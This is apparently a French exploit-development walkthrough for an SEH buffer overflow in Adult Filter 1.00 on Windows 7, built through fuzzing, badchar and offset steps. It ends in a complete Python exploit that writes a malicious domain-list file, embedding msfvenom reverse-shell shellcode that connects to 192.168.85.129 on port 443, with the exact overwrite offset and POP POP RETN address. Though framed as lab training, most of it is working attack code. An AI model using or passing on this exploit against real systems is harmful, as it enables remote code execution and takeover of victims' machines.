





# Adult Filter 1.00 (SEH) - Windows 7 x86 SP1

Prérequis :


* [Adult filter 1.00](https://www.exploit-db.com/apps/1f44d2c7beb02e79c5df8cee8adc4016-adult-filter.exe)
* [Exploit Initial](https://www.exploit-db.com/exploits/45687)
* [Windows 7 SP1 x86](https://www.mes-vms.fr/machine-virtuelle-windows-7-professionnel-sp1-32bits/)
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
* [Mona](https://github.com/corelan/mona)

Pour reproduire :

```
# Exécuter le script python pour créer un nouveau fichier avec le nom exploit.txt
# Démarrer Adult Filter 1.00 et cliquer sur "Options" puis "Black Domain List" et enfin sur "Import"
# Sélectionner le fichier exploit.txt et cliquer "OK" le reverse shell est alors executé par la victime
```

1. Fuzzing
2. Identifier l'exception
3. Identifier les badchars
4. Créer un pattern
5. Localiser le SEH
6. Trouver un POP POP RETN
7. Remplacer le nSEH
8. Générer l'exploit

## Etape 1 : Fuzzing

A faire

## Etape 2 : Identifier l'exception

```PYTHON

final="A"*6000
f=open("crash.txt","w")
print "[+] Creating %s bytes evil payload.." %len(final)
f.write(final)
f.close()
print "[+] File created!"

```
Dans les options de Adult Filter 1.00 importer une black liste de domaine.

L'EIP est bien écrasé mais ECX ne contient pas encore les 41 ("A")



On jump après la première exception dans immunity debugger avec Shift + F9


L'EIP est bien écrasé et ECX contient les 41 ("A")


## Etape 3 : Identifier les badchars 

Les badchars sont \x00\x0a\x0d\x1a


## Etape 4 : Créer un pattern 

On crée un pattern d'une longueur de 6000 (taille équivalente à notre payload envoyée lors du crash)

```BASH
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 6000
```


## Etape 5 : Localiser le SEH

On trouve la position du SEH dans immunity debugger avec mona : 

```
!mona findmsp
```


On a junk + nSEH + SEH + junk : "A" * 4108 + nSEH + SEH + "D" * (6000 - 4108 - 4 - 4)

## Etape 6 : Trouver un POP POP RETN

On cherche ensuite un SEH avec POP POP RETN : 
```
!mona seh 
```

Aller voir dans le fichier [seh.txt](files/seh.txt) dans le dossier de Immunity Debugger.

On cherche une ligne avec que des "False" et une adresse qui ne contiennent pas de badchars

```
0x03912524 : pop edi # pop esi # ret  |  {PAGE_EXECUTE_READ} [SetMgr.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.0.0.0 (C:\Program Files\Adult Filter\SetMgr.DLL)
```
On réexécute le programme en modifiant l'adresse du SEH

```PYTHON
junk="A"*4108
seh="\x24\x25\x91\x03"
nseh="B"*4
junk2="D"*(6000-4108-4-4)
final=junk+nseh+seh+junk2
f=open("seh.txt","w")
print "[+] Creating %s bytes evil payload.." %len(final)
f.write(final)
f.close()
print "[+] File created!"
```


## Etape 7 : Remplacer le nSEH


Normalement dans immunity debugger l'instruction est précédée de 4 x 42



Clique droit dessus => Assemble , on entre alors une adresse où les 44 (D) sont présents
 : jmp 0012F7EF



On voit que les deux premières instructions sont remplacées par EB 09

Mais pas les deux suivantes (42 42) donc notre SEH vaudra : eb 09 90 90


On a alors : junk + nSEH + SEH + junk : 
```
"A" * 4108 + "\xeb\x09\x90\x90" + "\x24\x25\x91\x03" + "D" * (6000 - 4108 - 4 - 4)
```

```PYTHON
junk="A"*4108
seh="\x24\x25\x91\x03"
nseh="\xeb\x09\x90\x90"
junk2="D"*(6000-4108-4-4)
final=junk+nseh+seh+junk2
f=open("nseh.txt","w")
print "[+] Creating %s bytes evil payload.." %len(final)
f.write(final)
f.close()
print "[+] File created!"
```


## Etape 8 : Générer l'exploit

On ajoute des NOP après le SEH pour être sur que l'exploit s'exécute bien, ce qui nous donne :

```
"A" * 4108 + "\xeb\x09\x90\x90" + "\x24\x25\x91\x03" + 8*"\x90" + "D" * (2000 - 608 - 4 - 4 - 8)
```

Enfin on ajoute notre Shellcode :
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.85.129 LPORT=443 -b"\x00\x0a\x0d\x1a" -f python EXITFUNC=thread -a x86
```

Notre exploit final :

```
"A" * 4108 + "\xeb\x09\x90\x90" + "\x24\x25\x91\x03" + 8*"\x90" + shellcode + "D" * (6000 - 4108 - 4 - 4 - 8 - len(shellcode))
```




```PYTHON
junk="A"*4108

seh="\x24\x25\x91\x03"
nseh="\xeb\x09\x90\x90"

shellcode =  ""
shellcode += "\xbe\x07\xfe\x99\xa0\xda\xc2\xd9\x74\x24\xf4\x5b\x29"
shellcode += "\xc9\xb1\x52\x83\xeb\xfc\x31\x73\x0e\x03\x74\xf0\x7b"
shellcode += "\x55\x86\xe4\xfe\x96\x76\xf5\x9e\x1f\x93\xc4\x9e\x44"
shellcode += "\xd0\x77\x2f\x0e\xb4\x7b\xc4\x42\x2c\x0f\xa8\x4a\x43"
shellcode += "\xb8\x07\xad\x6a\x39\x3b\x8d\xed\xb9\x46\xc2\xcd\x80"
shellcode += "\x88\x17\x0c\xc4\xf5\xda\x5c\x9d\x72\x48\x70\xaa\xcf"
shellcode += "\x51\xfb\xe0\xde\xd1\x18\xb0\xe1\xf0\x8f\xca\xbb\xd2"
shellcode += "\x2e\x1e\xb0\x5a\x28\x43\xfd\x15\xc3\xb7\x89\xa7\x05"
shellcode += "\x86\x72\x0b\x68\x26\x81\x55\xad\x81\x7a\x20\xc7\xf1"
shellcode += "\x07\x33\x1c\x8b\xd3\xb6\x86\x2b\x97\x61\x62\xcd\x74"
shellcode += "\xf7\xe1\xc1\x31\x73\xad\xc5\xc4\x50\xc6\xf2\x4d\x57"
shellcode += "\x08\x73\x15\x7c\x8c\xdf\xcd\x1d\x95\x85\xa0\x22\xc5"
shellcode += "\x65\x1c\x87\x8e\x88\x49\xba\xcd\xc4\xbe\xf7\xed\x14"
shellcode += "\xa9\x80\x9e\x26\x76\x3b\x08\x0b\xff\xe5\xcf\x6c\x2a"
shellcode += "\x51\x5f\x93\xd5\xa2\x76\x50\x81\xf2\xe0\x71\xaa\x98"
shellcode += "\xf0\x7e\x7f\x0e\xa0\xd0\xd0\xef\x10\x91\x80\x87\x7a"
shellcode += "\x1e\xfe\xb8\x85\xf4\x97\x53\x7c\x9f\x57\x0b\x2b\xde"
shellcode += "\x30\x4e\xd3\xe1\x7b\xc7\x35\x8b\x6b\x8e\xee\x24\x15"
shellcode += "\x8b\x64\xd4\xda\x01\x01\xd6\x51\xa6\xf6\x99\x91\xc3"
shellcode += "\xe4\x4e\x52\x9e\x56\xd8\x6d\x34\xfe\x86\xfc\xd3\xfe"
shellcode += "\xc1\x1c\x4c\xa9\x86\xd3\x85\x3f\x3b\x4d\x3c\x5d\xc6"
shellcode += "\x0b\x07\xe5\x1d\xe8\x86\xe4\xd0\x54\xad\xf6\x2c\x54"
shellcode += "\xe9\xa2\xe0\x03\xa7\x1c\x47\xfa\x09\xf6\x11\x51\xc0"
shellcode += "\x9e\xe4\x99\xd3\xd8\xe8\xf7\xa5\x04\x58\xae\xf3\x3b"
shellcode += "\x55\x26\xf4\x44\x8b\xd6\xfb\x9f\x0f\xf6\x19\x35\x7a"
shellcode += "\x9f\x87\xdc\xc7\xc2\x37\x0b\x0b\xfb\xbb\xb9\xf4\xf8"
shellcode += "\xa4\xc8\xf1\x45\x63\x21\x88\xd6\x06\x45\x3f\xd6\x02"


nop="\x90"*8
junk2="D"*(6000-4108-4-4-len(shellcode)-8)

final=junk+nseh+seh+nop+shellcode+junk2
f=open("exploit.txt","w")
print "[+] Creating %s bytes evil payload.." %len(final)
f.write(final)
f.close()
print "[+] File created!"

```
